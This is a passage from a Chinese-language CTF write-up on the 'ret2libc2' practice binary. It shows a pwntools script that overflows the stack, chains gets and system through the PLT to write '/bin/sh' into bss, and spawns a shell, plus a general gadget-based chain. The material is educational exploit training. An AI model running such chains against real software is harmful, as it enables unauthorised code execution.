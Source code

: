 + 这道题构造的 `payload` 打出之后栈里面应该是这样的

  ![image-20201020173326671](https://cdn.jsdelivr.net/gh/smallzhong/picgo-pic-bed/image-20201020173326671.png)

+ 代码如下

  ```python3
  #!usr/python
  #coding:utf-8
  
  from pwn import *
  
  io = process("./ret2libc2")
  
  elf = ELF("./ret2libc2")
  
  system_plt = elf.plt["system"]
  
  get_plt = elf.plt["gets"]
  
  buf2 = 0x0804A080  # bss段的buf2
  
  # bin_sh = next(elf.search(b"/bin/sh"))  # elf.search返回的是一个迭代器，要用next获取第一个元素
  
  print(hex(get_plt))
  
  print(hex(system_plt))
  
  payload = flat([b'A' * 112, get_plt, system_plt, buf2, buf2])
  
  io.sendline(payload)
  
  io.sendline(b'/bin/sh\0x00')  # 保险起见最后加上一个EOF
  
  io.interactive()
  ```

+ 这是仅用两个函数达到目的的情况，实际如果需要使用多个函数的话通用的 `payload` 要这样构造

  ```python3
  payload = flat([b'A' * 112, get_plt, pop_ebx_ret, buf2, system_plt, b'AAAA', buf2])
  ```

  这样在调用一个函数之后通过一块 `pop ebx ret` 的gadget帮我们平衡堆栈，最后再调用 `system` 。